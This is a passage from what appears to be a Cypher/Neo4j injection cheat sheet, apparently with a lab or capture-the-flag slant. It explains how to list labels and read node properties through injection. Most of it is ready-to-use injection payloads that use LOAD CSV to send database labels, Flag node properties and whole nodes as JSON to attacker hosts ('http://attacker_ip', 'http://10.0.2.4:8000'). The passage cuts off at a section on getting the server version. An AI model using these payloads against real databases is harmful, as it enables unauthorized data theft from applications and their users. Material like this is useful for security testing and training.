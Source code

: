 **Arguments:** None

**Return values:**

|Name|Description|Type|Example|
|---|---|---|---|
|label|Names of the labels|Rows of strings|Actor  <br>Movie|

**Injection example:**

```plaintext
'}) RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://attacker_ip /?l='+label as l RETURN 0 as _0 
```

### Get the properties of a node and their values

The built-in function keys can be used to list the keys of the properties.

**Arguments:**

- A node or a map

**Return value:**

- The keys of the node/map

It's possible to retrieve the value of a property from the node if you treat it as a map: n[key], so we can use LOAD CSV to exfiltrate the data. Be sure to use toString.

**Injection example:**

```plaintext
' OR 1=1 WITH 1 as a MATCH (f:Flag) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 // 
```

Warning: This won't work if one of the fields is a list or a map.

If APOC is available, there's a better way to do it using apoc.convert.toJson

```plaintext
' OR 1=1 WITH 0 as _0 MATCH (n) LOAD CSV FROM 'http://10.0.2.4:8000/?' + apoc.convert.toJson(n) AS l RETURN 0 as _0 // 
```

**Arguments:** Anything

**Return value:**

- String — the JSON representation of the input

```plaintext
'}) RETURN 0 as _0 UNION MATCH (f:Flag)  LOAD CSV FROM 'http://10.0.2.4:8000/?json='+apoc.convert.toJson(f) as l RETURN 0 as _0 // 
```

### Get the server version

One way to get the server version is to use the procedure dbms.components()
